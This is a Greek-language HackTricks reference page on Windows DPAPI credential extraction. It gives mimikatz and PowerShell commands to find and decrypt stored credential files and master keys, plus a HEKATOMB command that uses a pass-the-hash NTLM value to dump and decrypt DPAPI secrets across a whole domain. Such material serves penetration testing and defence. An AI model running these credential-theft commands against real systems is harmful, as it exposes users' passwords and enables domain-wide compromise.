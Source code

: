 # DPAPI - Εξαγωγή Κωδικών

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε τομέα.

{% embed url="https://www.rootedcon.com/" %}

## Τι είναι το DPAPI

Η API Προστασίας Δεδομένων (DPAPI) χρησιμοποιείται κυρίως στο λειτουργικό σύστημα Windows για **συμμετρική κρυπτογράφηση ασύμμετρων ιδιωτικών κλειδιών**, εκμεταλλευόμενη είτε μυστικά χρήστη είτε συστήματος ως σημαντική πηγή εντροπίας. Αυτή η προσέγγιση απλοποιεί την κρυπτογράφηση για τους προγραμματιστές, επιτρέποντάς τους να κρυπτογραφούν δεδομένα χρησιμοποιώντας ένα κλειδί που προέρχεται από τα μυστικά σύνδεσης του χρήστη ή, για την κρυπτογράφηση του συστήματος, τα μυστικά αυθεντικοποίησης του τομέα του συστήματος, αποφεύγοντας έτσι την ανάγκη οι προγραμματιστές να διαχειρίζονται την προστασία του κλειδιού κρυπτογράφησης οι ίδιοι.

### Προστατευμένα Δεδομένα από το DPAPI

Μεταξύ των προσωπικών δεδομένων που προστατεύονται από το DPAPI είναι:

* Κωδικοί πρόσβασης και δεδομένα αυτόματης συμπλήρωσης του Internet Explorer και του Google Chrome
* Κωδικοί πρόσβασης email και εσωτερικών λογαριασμών FTP για εφαρμογές όπως το Outlook και το Windows Mail
* Κωδικοί πρόσβασης για κοινόχρηστα φακέλους, πόρους, ασύρματα δίκτυα και Windows Vault, συμπεριλαμβανομένων των κλειδιών κρυπτογράφησης
* Κωδικοί πρόσβασης για απομακρυσμένες συνδέσεις επιφάνειας εργασίας, .NET Passport και ιδιωτικά κλειδιά για διάφορους σκοπούς κρυπτογράφησης και αυθεντικοποίησης
* Κωδικοί πρόσβασης δικτύου που διαχειρίζεται ο Credential Manager και προσωπικά δεδομένα σε εφαρμογές που χρησιμοποιούν το CryptProtectData, όπως το Skype, το MSN messenger και άλλα

## Λίστα Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Credential Files

Τα **αρχεία διαπιστευτηρίων που προστατεύονται** θα μπορούσαν να βρίσκονται σε:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Αποκτήστε πληροφορίες πιστοποίησης χρησιμοποιώντας το mimikatz `dpapi::cred`, στην απάντηση μπορείτε να βρείτε ενδιαφέρουσες πληροφορίες όπως τα κρυπτογραφημένα δεδομένα και το guidMasterKey.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
Μπορείτε να χρησιμοποιήσετε το **mimikatz module** `dpapi::cred` με το κατάλληλο `/masterkey` για να αποκρυπτογραφήσετε:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

Οι κλειδιά DPAPI που χρησιμοποιούνται για την κρυπτογράφηση των RSA κλειδιών του χρήστη αποθηκεύονται στον φάκελο `%APPDATA%\Microsoft\Protect\{SID}`, όπου {SID} είναι ο [**Security Identifier**](https://en.wikipedia.org/wiki/Security\_Identifier) **αυτού του χρήστη**. **Το κλειδί DPAPI αποθηκεύεται στο ίδιο αρχείο με το κύριο κλειδί που προστατεύει τα ιδιωτικά κλειδιά των χρηστών**. Συνήθως είναι 64 bytes τυχαίων δεδομένων. (Σημειώστε ότι αυτός ο φάκελος είναι προστατευμένος, οπότε δεν μπορείτε να τον καταχωρίσετε χρησιμοποιώντας `dir` από το cmd, αλλά μπορείτε να τον καταχωρίσετε από το PS).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
Αυτό είναι πώς θα φαίνονται μια σειρά από Master Keys ενός χρήστη:

![](<../../.gitbook/assets/image (1121).png>)

Συνήθως **κάθε master key είναι ένα κρυπτογραφημένο συμμετρικό κλειδί που μπορεί να αποκρυπτογραφήσει άλλο περιεχόμενο**. Επομένως, **η εξαγωγή** του **κρυπτογραφημένου Master Key** είναι ενδιαφέρουσα προκειμένου να **αποκρυπτογραφήσουμε** αργότερα εκείνο το **άλλο περιεχόμενο** που έχει κρυπτογραφηθεί με αυτό.

### Εξαγωγή master key & αποκρυπτογράφηση

Ελέγξτε την ανάρτηση [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) για ένα παράδειγμα σχετικά με το πώς να εξαγάγετε το master key και να το αποκρυπτογραφήσετε.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) είναι μια C# μεταφορά κάποιων λειτουργιών DPAPI από το [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) έργο.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) είναι ένα εργαλείο που αυτοματοποιεί την εξαγωγή όλων των χρηστών και υπολογιστών από τον κατάλογο LDAP και την εξαγωγή του κλειδιού αντιγράφου ασφαλείας του ελεγκτή τομέα μέσω RPC. Το σενάριο θα επιλύσει στη συνέχεια τη διεύθυνση IP όλων των υπολογιστών και θα εκτελέσει smbclient σε όλους τους υπολογιστές για να ανακτήσει όλα τα DPAPI blobs όλων των χρηστών και να αποκρυπτογραφήσει τα πάντα με το κλειδί αντιγράφου ασφαλείας του τομέα.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

Με τη λίστα υπολογιστών που εξήχθη από το LDAP μπορείτε να βρείτε κάθε υποδίκτυο ακόμη και αν δεν τα γνωρίζατε!

"Επειδή τα δικαιώματα Domain Admin δεν είναι αρκετά. Χακάρετε τα όλα."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) μπορεί να εξάγει μυστικά που προστατεύονται από DPAPI αυτόματα.

## Αναφορές

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες τεχνολογίας και κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
